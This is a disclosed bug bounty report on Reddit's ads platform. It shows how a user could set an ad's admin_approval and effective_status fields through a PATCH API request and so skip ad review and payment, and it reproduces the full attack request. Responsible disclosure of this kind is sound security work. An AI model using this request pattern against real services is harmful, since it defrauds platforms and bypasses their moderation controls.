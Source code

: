# Able to approve admin approval and change effective status without adding payment details . 

## Report Details
- **Report ID**: 1543159
- **URL**: https://hackerone.com/reports/1543159
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-17T16:55:48.399Z
- **Disclosed**: 2022-06-22T05:05:02.156Z

## Reporter
- **Username**: bisesh
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary:

In https://ads.reddit.com/ you can create campaign under which you can create ads , once you create new campaign , it is on pending stage and will not be delivered unless you add payment details and is reviewed by admin and approved according to what it says here https://advertising.reddithelp.com/en/categories/ad-review/about-reddits-ad-review-process . But changing the value of admin_approval to APPROVED and effective_status to ACTIVE , the ads is approved and thus we receive the confirmation email from reddit ads that our ads is approved .

## Impact:
Can bypass the review process and change the ads status to approve and active without payment process .

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. Create a campaign from https://ads.reddit.com 
  1. Go to https://ads.reddit.com/dashboard, you will see a table list that shows your ads and campaign , there the status is stated as PENDING . And we know according to what reddit says , our ads needs to get reviewed by reddit members , but updating the value from api changes our status to ACTIVE . Hence ad is successfully delivered . 
POC video is attached . 

███████

```
PATCH /api/v2.0/accounts/█████/ads/██████████ HTTP/2
Host: ads-api.reddit.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ads.reddit.com/
Authorization: bearer token
Content-Type: application/json
Origin: https://ads.reddit.com
Content-Length: 101
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
X-Pwnfox-Color: magenta
Te: trailers

{"data":
{"configured_status":"ACTIVE",
"effective_status":"ACTIVE",
"admin_approval":"APPROVED"
}}

```

## Supporting Material/References:


  * [attachment / reference]

## Impact

Can bypass the review process and change the ads status to approve and active without payment process .

## Attachments
No attachments
